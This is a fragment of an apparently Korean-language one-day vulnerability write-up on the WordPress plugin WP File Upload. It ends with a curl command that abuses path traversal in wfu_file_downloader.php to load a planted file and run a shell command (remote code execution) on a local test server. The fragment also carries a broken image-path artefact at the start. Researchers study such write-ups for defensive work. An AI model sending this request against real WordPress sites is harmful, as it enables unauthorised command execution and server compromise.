 ```json
    "wfu_browser_downloadfile_failed":"Failed"
}
```

![imagea](assets/posts/one-day/2025-02-12/image-017.png)

이후 아래의 명령어를 입력하여 RCE가 실행되는 것을 확인합니다.

```bash
curl -G "http://localhost:8080/wp-content/plugins/wp-file-upload/wfu_file_downloader.php" \
     --data-urlencode "source=../var/www/html/exploit.json" \
     --data-urlencode "cmd=ls -al" \
     --output -

```
